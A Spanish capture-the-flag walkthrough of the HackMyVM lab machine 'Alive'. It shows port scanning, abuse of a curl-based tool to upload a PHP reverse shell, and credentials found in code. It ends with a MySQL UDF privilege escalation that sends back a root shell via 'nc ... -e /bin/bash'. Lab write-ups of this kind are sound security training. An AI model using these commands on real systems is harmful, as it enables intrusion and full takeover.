







Red Team & Ctf Pl4yer
HackMyVm - Alive
Autor: Cromiphi

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.13
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.13
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 269c17ef21363d01c31d6b0d4711cd58 (RSA)
| 256 29266849b0375c0e7b6d818d60988dfc (ECDSA)
|_ 256 132e13190c9da3a73eb8dfab97084188 (ED25519)
80/tcp open http Apache httpd 2.4.54 ((Debian))
|_http-title: Host alive
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
En el puerto 80 hay una herramienta para comprobar si un host está activo.

Hago fuerza bruta de directorios con wfuzz y encuentro el directorio tmp.
❯ wfuzz -u http://192.168.1.13/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc=404 --hh=1597 -t 200
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000003237: 301 9 L 28 W 310 Ch "tmp"
El directorio tmp está vacío.

Levanto un servidor http en mi máquina para ver el funcionamiento de la herramienta.

Al poner un guión veo que por debajo ejecuta la herramienta curl.

Uso la flag -o para copiar rs.php al directorio tmp que he encontrado anteriormente.

Compruebo que se haya subido correctamente.

Obtengo la shell como usuario www-data.
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.13] 50236
Linux alive.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Entro en /var/www/code/ y encuentro unas credenciales en el index.php.
$username = "admin";
$password = "HeLL0alI4ns";
Me conecto al servicio MySQL como usuario admin.
www-data@alive:/var/www/code$ mysql -u admin -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MariaDB connection id is 11
Server version: 10.3.25-MariaDB MariaDB Server
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
Listo las bases de datos.
MariaDB [(none)]> show databases;
+--------------------+
| Database |
+--------------------+
| digitcode |
| information_schema |
| mysql |
| performance_schema |
| qdpm_db |
+--------------------+
5 rows in set (0.001 sec)
Usaré la mysql.
MariaDB [(none)]> use mysql;
Listo las tablas de la base de datos mysql.
MariaDB [mysql]> show tables;
+---------------------------+
| Tables_in_mysql |
+---------------------------+
| column_stats |
| columns_priv |
| db |
| event |
| func |
| general_log |
| gtid_slave_pos |
| help_category |
| help_keyword |
| help_relation |
| help_topic |
| host |
| index_stats |
| innodb_index_stats |
| innodb_table_stats |
| plugin |
| proc |
| procs_priv |
| proxies_priv |
| roles_mapping |
| servers |
| slow_log |
| table_stats |
| tables_priv |
| time_zone |
| time_zone_leap_second |
| time_zone_name |
| time_zone_transition |
| time_zone_transition_type |
| transaction_registry |
| user |
+---------------------------+
Muestro el contenido de user y encuentro un hash para el usuario root.
MariaDB [mysql]> select * from user;
| localhost | root | *88B2B2E7392C149CE6B704871A568FD35798F9B8
He usado crackstation para romper el hash de forma online.
Hash:
----
88B2B2E7392C149CE6B704871A568FD35798F9B8
Type:
----
MySQL4.1+
Result:
------
t*******r
Privesc
Descargo el siguiente exploit.
https://www.exploit-db.com/exploits/1518
Lo compilo.
www-data@alive:/tmp$ gcc -g -c raptor_udf2.c
Creo la biblioteca compartida (so).
www-data@alive:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
www-data@alive:/tmp$ ls -la
total 9464
drwxrwxrwt 2 root root 4096 Apr 14 18:07 .
drwxr-xr-x. 18 root root 4096 Jan 17 07:01 ..
-rw-rw-rw- 1 www-data www-data 3300 Apr 14 18:05 raptor_udf2.c
-rw-rw-rw- 1 www-data www-data 4824 Apr 14 18:06 raptor_udf2.o
-rwxrwxrwx 1 www-data www-data 17768 Apr 14 18:07 raptor_udf2.so
Me conecto otra vez a mysql como root.
www-data@alive:/var/www/code$ mysql -u root -p
Localización de la ruta de plugins.
MariaDB [(none)]> show variables like '%plugin%';
+-----------------+------------------------------+
| Variable_name | Value |
+-----------------+------------------------------+
| plugin_dir | /usr/local/mysql/lib/plugin/ |
| plugin_maturity | gamma |
+-----------------+------------------------------+
Ahora, necesitamos comprobar si la variable secure_file_priv está habilitada para permitir operaciones de importación y exportación de datos como las funciones load_file y load_data.
MariaDB [(none)]> show variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name | Value |
+------------------+-------+
| secure_file_priv | |
+------------------+-------+
Creo la función UDF dentro de mysql para apuntar al exploit compilado (biblioteca compartida).
MariaDB [(none)]> use mysql;
MariaDB [mysql]> create table foo(line blob);
Importo el exploit insertando su contenido en la tabla. Añadiendo la ruta del directorio donde se compiló el exploit. En mi caso, se compiló en el directorio /tmp ya que tengo permisos de escritura.
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
Selecciono el contenido binario de la biblioteca compartida y lo vuelco en el directorio de plugins, donde puede almacenar UDFS.
MariaDB [mysql]> select * from foo into dumpfile '/usr/local/mysql/lib/plugin/raptor_udf2.so';
Copiar raptor_udf2.so al directorio de plugins de mysql.
www-data@alive:/tmp$ cp raptor_udf2.so /usr/local/mysql/lib/plugin/raptor_udf2.so
Me conecto de nuevo como root a MySQL vuelvo a lanzar el comando anterior donde me dió error y llamo al exploit creando una función que lo invoque.
MariaDB [(none)]> create function do_system returns integer soname 'raptor_udf2.so';
Compruebo que la función do_system está presente en mysql.
MariaDB [(none)]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name | ret | dl | type |
+-----------+-----+----------------+----------+
| do_system | 2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
Ahora le paso el comando netcat a la función do_system para entablarme una shell.
MariaDB [(none)]> select do_system('nc 192.168.1.18 8080 -e /bin/bash');
Obtengo el root.
❯ nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.13] 40540
id
uid=0(root) gid=0(root) groupes=0(root)
root@alive:~#
Y con esto ya resolvemos la máquina, nos vemos!
Agradecimientos al sr PL4GU3 por su ayuda ;)